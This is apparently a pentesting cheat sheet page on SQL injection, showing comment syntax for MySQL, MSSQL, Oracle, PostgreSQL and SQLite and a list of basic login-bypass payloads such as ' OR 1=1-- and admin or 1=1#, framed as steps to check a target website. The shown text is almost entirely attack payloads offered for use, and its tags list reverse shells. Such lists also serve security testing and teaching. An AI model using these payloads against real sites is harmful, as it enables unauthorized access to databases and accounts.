 ```yaml
---
title: SQL Injection Cheat Sheet
description: SQL injection (SQLi) is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution.
tags:
    - Database
    - Reverse Shell
    - SQL Injection
    - Web
refs:
date: 2023-02-13
draft: false
---
```


## Comment Syntax

Comment syntax is depending on what SQL is used in target website.

### MySQL

```txt
-- -
--+
#
```

### MSSQL, Oracle, PostgreSQL, SQLite

```txt
--
```

<br />

## Basic Injection

First off, check if we can inject SQL commands into forms or URL params in the target website.

```txt
' OR 1=1--
' OR 1=1-- -
' OR 1=1#

' OR '1'='1'--
' OR '1'='1'-- -
' OR '1'='1'#

' OR '1'='1--
' OR '1'='1-- -
' OR '1'='1#

" OR 1=1--
" OR 1=1-- -
" OR 1=1#

') OR 1=1--
') OR 1=1-- -
') OR 1=1#

admin or 1=1--
admin or 1=1-- -
admin or 1=1#
```
